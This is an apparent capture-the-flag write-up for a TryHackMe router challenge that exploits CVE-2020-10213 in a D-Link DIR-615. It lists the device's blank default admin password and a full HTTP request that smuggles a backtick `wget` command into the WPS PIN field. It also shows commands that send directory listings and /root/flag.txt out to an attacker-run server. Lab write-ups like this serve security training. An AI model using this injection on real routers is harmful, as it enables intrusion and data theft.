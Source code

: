 # 🛜 Royal Router

* Solving [Royal Router](https://tryhackme.com/room/hfb1royalrouter)

## Finding Initial Vulnerability

1. Finding open Ports: `nmap -p- -sV $TARGET`
```
Nmap scan report for $TARGET
Host is up (0.00016s latency).
Not shown: 65527 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
23/tcp    open  telnet?
80/tcp    open  http    DD-WRT milli_httpd
9999/tcp  open  abyss?
20443/tcp open  unknown
24433/tcp open  unknown
28080/tcp open  unknown
50628/tcp open  unknown
MAC Address: 02:77:0D:27:B5:F1 (Unknown)
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
```

2. Checking web Port(**80**) on Browser: `http://$TARGET`

3. You'll need the default Password for the Challenge: `https://www.lifewire.com/d-link-dir-615-default-password-2619092`
```
Username: admin
Password: (Blank)
```

4. Searching for Vulnerabilities: `dir-615 hack`

5. **CVE-2020-10213**: [Write-Up](https://tomorrowisnew.com/posts/hacking-the-dlink-dir-615-for-fun-and-no-profit-part-3-cve-2020-10213/)

## Exploitiong Device

1. Start Python Http Server on your system
```sh
python3 -m http.server
```

2. Go to: `http://$TARGET/do_wps.asp`

3. Enable on `PIN` and fill the box with `12345670` and Click `Connect`

4. Capture the Request above in **Burp Suite**

5. Add Your Payload to `wps_sta_enrollee_pin` parameter and send the payload.
```
POST /set_sta_enrollee_pin.cgi HTTP/1.1
Host: $TARGET
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Origin: http://$TARGET
Connection: keep-alive
Referer: http://$TARGET/do_wps.asp
Upgrade-Insecure-Requests: 1
Priority: u=0, i

html_response_page=do_wps_save.asp&html_response_return_page=do_wps.asp&reboot_type=none&wps_pin_radio=0&wps_sta_enrollee_pin=12345670`wget+http://$ATTACKBOX:8000/`
```
- **Make Sure to replace your IP with `$ATTACKBOX`**

6. You should see some Requests in **Python HTTP Server**

# Getting Flag

1. Finding Flag: `wget http://$ATTACKBOX:8000/$(ls /root/)`

2. Read Flag: `wget http://$ATTACKBOX:8000/$(cat /root/flag.txt)`
```
THM{EXFILTRATING_A_MIPS_ROUTER}
```

# References

- 
- [Cheat Sheet - 0xb0b](https://0xb0b.gitbook.io/writeups/tryhackme/2025/hackfinity-battle-vault#royal-router)
- [noobexploiter](https://noob3xploiter.medium.com/hacking-the-dlink-dir-615-for-fun-and-no-profit-a2f1689f9920)
- [Tomorrow is New](https://tomorrowisnew.com)